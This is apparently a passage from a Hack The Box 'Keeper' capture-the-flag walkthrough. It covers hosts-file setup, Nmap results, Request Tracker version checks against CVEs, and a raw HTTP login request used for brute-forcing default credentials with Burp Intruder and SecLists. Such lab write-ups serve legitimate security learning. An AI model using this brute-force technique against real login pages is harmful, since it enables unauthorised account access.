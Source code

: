 Adding the hostname in my `/etc/hosts` file
```shell
[...]
10.129.97.93    keeper.htb tickets.keeper.htb
```

Re-running Nmap to fully check again.
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> There is now a http-title

Accessing `http://tickets.keeper.htb/rt/` reveals a login page and some useful information about the web application/software running.
```
RT 4.4.4+dfsg-2ubuntu1 (Debian)
```
> RT is Request Tracker

Checking if the version of `request-tracker4` is vulnerable in `https://security-tracker.debian.org/tracker/source-package/request-tracker4`
```
CVE-2022-25802 - Best Practical Request Tracker (RT) before 5.0.3 has an Open Redirect via a ticket search. 

CVE-2022-25802 - Best Practical Request Tracker (RT) before 4.4.6 and 5.x before 5.0.3 allows XSS via a crafted content type for an attachment.

CVE-2021-38562 - Best Practical Request Tracker (RT) 4.2 before 4.2.17, 4.4 before 4.4.5, and 5.0 before 5.0.2 allows sensitive information disclosure via a timing attack against lib/RT/REST2/Middleware/Auth.pm.
```
> None of this CVEs was used.

Brute forcing the Login page to check for weak/common credentials.
```http
POST /rt/NoAuth/Login.html HTTP/1.1
Host: tickets.keeper.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://tickets.keeper.htb
Connection: close
Referer: http://tickets.keeper.htb/rt/NoAuth/Login.html
Cookie: RT_SID_tickets.keeper.htb.80=a7ba7d37f8a19490f8fee5a2d8eca0ec
Upgrade-Insecure-Requests: 1

user=admin&pass=admin&next=fa8fafdc8171c2402eecbe0bd46af56d
```
> Using Burp Intruder and common username and password wordlist in Seclists.
